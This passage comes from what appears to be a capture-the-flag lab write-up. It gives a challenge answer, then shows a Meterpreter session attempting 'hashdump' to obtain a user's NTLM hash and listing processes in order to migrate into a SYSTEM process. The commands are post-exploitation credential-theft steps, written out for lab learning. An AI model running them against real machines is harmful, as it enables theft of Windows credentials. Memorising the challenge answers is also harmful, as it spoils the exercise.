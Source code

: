 Answer : speedster

### What is the NTLM hash of the jchambers user ?

Meterpreter accept the hashdump command directly, so let's try !

```console
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```
{: .nolineno}

Ok, let's check what's or process and migrate to another proccess.

```console
meterpreter > ps

Process List
============

 PID   PPID  Name                                       Arch  Session  User                          Path
 ---   ----  ----                                       ----  -------  ----                          ----
 0     0     [System Process]                                                                        
 4     0     System                                     x64   0                                      
 68    4     Registry                                   x64   0                                      
 400   4     smss.exe                                   x64   0                                      
 500   756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 552   544   csrss.exe                                  x64   0                                      
 632   624   csrss.exe                                  x64   1                                      
 676   544   wininit.exe                                x64   0                                      
 692   624   winlogon.exe                               x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 756   676   services.exe                               x64   0                                      
 772   676   lsass.exe                                  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 780   692   dwm.exe                                    x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 836   756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 880   756   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 948   756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 992   756   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1136  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1144  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1152  756   svchost.exe                                x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1212  756   svchost.exe                                x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1332  756   svchost.exe                                x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
```